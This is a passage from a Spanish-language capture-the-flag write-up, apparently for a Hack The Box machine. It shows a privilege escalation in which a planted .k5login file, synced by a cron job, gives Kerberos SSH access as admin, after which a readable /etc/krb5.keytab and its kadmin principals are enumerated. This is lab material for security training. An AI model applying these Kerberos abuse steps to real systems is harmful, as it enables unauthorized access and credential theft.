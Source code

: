 Puedo crear archivos, pero no puedo listar. La idea será que como está Kerberos detras vamos a crear un archivo .k5login que nos permitirá autenticarnos como el usuario admin. https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html

El archivo contendrá lo siguiente:

```bash
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

Si esperamos un minuto a que se ejecute la tarea cron podremos autenticarnos con el usuario admin, debido a que se esta sincronizando el directorio de squid con el home de admin.

```bash
❯ ssh -K admin@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu Feb 23 19:18:01 2023
[admin@srv01 ~]$ id
uid=1011(admin) gid=1011(admin) grupos=1011(admin),23(squid) contexto=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[admin@srv01 ~]$ 
```

Si miramos los archivos y carpetas que pertenecen al grupo admin podemos ver que hay uno que es /etc/krb5.keytab

```bash
[admin@srv01 ~]$ find / -group admin 2>/dev/null                                                                                                                                             
/home/admin                                                                                                                                                                                  
/home/admin/.ssh                                                                                                                                                                             
/home/admin/squid_logs.tar.gz.2023-02-23-191902                                                                                                                                              
/home/admin/squid_logs.tar.gz.2023-02-23-192002                                                                                                                                              
/home/admin/squid_logs.tar.gz.2023-02-23-192102                                                                                                                                              
/usr/local/bin/log_backup.sh                                                                                                                                                                 
/etc/krb5.keytab
```

Podemos aprovecharnos de este archivo de la siguiente forma. Podemos listar los "Principal" de la siguiente forma

```bash
[admin@srv01 ~]$ klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```
